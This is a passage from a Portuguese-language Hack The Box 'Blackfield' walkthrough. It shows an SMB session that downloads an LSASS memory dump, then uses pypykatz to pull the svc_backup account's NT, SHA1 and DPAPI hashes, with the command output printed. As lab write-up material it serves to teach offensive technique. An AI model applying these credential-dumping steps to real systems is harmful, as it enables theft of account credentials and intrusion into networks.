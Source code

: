```bash
  conhost.zip                         A 37876530  Thu May 28 17:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 17:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 17:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 17:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 17:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 17:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 17:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 17:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 17:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 17:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 17:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 17:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 17:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 17:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 17:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 17:27:53 2020

                5102079 blocks of size 4096. 1691282 blocks available
smb: \memory_analysis\> get lsass.zip
getting file \memory_analysis\lsass.zip of size 41936098 as lsass.zip (1578.5 KiloBytes/sec) (average 1578.5 KiloBytes/sec)
smb: \memory_analysis\> exit
```

​	Ao descompactá-lo, podemos ver que o arquivo é um arquivo minidump (dmp) e ao pesquisar sobre como ver informacões desse tipo de arquivo, podemos encontrar o seguinte artigo [How to extract information from dmp files](https://technicalnavigator.in/how-to-extract-information-from-dmp-files/) que menciona uma tool chamada [pypykatz](https://github.com/skelsec/pypykatz).

​	Podemos então usar o **pypykatz** para ver a informacão do arquivo com o seguinte comando: 

```
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ pypykatz lsa minidump lsass.DMP 
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
```